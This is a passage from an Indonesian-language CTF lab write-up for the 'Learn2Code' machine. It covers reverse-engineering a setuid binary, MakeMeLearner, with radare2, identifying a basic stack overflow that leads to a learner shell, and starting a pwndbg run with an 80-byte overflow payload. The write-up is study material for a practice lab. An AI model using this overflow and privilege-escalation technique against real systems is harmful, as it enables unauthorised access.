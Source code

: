 ```bash
8   0x00001070 GLOBAL FUNC       setgid
9   0x00000000 WEAK   NOTYPE     _ITM_registerTMCloneTable
10  0x00001080 GLOBAL FUNC       setuid
11  0x00001090 WEAK   FUNC       __cxa_finalize

[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002008 0x00002008 27  28   .rodata ascii please specify an argument\n
1   0x00002028 0x00002028 68  69   .rodata ascii Change the 'modified' variable value to '0x61626364' to be a learner
2   0x0000206d 0x0000206d 9   10   .rodata ascii /bin/bash
3   0x00002077 0x00002077 26  27   .rodata ascii Try again, you got 0x%08x\n

```

dari sini bisa ditarik sebuah kesimpulan bahwa ini semacam `stack-based overflow` yang paling dasar karena terdapat keanehan pada address `0x00002028` dan `0x00002077` yang mana saya melihat dari keduanya terjadi karena suatu **conditional expression**. 

-

saya menganalisis bahwa `modified` adalah **variable** yang entah nilainya berapa dan harus digantikan dengan nilai `0x61626364` yang mana hasil stringnya adalah `dcba` dan jika hasilnya bisa mencapai nilai string tersebut maka kita akan dibawa elevasi ke user yaitu `learner` dengan rumusnya harus bisa mendekati `setuid` dan `setgid` untuk mengeksekusi shell `0x0000206d` dengan string `/bin/bash`. 

-

cukup ribet sih kalau ingin dijelaskan. 

tapi sebelum itu saya memastikan apakah learner adalah seorang user? 
```
www-data@Learn2Code:/var/www/html/includes/php$ grep -i sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
learner:x:1000:1000:learner,,,:/home/learner:/bin/bash
```
karena sudah terjawab, maka saya melanjutkan sisi yang lain. karena memang cuma ada 2 user doang.

lanjut lagi, saya beranjak untuk menjalankan radare dan melihat isi `dissassembled code` dari fungsi `main`.

```sh
╭─ via [machines/learn2code]
╰─ file MakeMeLearner                
MakeMeLearner: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=bb387daabdaf0f68bfa1a29f8b8190c076dd6ad8, for GNU/Linux 3.2.0, not stripped
╭─ via [machines/learn2code]
╰─ checksec MakeMeLearner
[*] '/home/via/ctfs/hmv/machines/learn2code/MakeMeLearner'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled 
╭─ via [machines/learn2code]
╰─ gdb-pwndbg MakeMeLearner
Reading symbols from MakeMeLearner...
(No debugging symbols found in MakeMeLearner)
pwndbg: loaded 197 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> r $(python -c 'print("A"*80)')
Starting program: /home/via/ctfs/hmv/machines/learn2code/MakeMeLearner $(python -c 'print("A"*80)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
```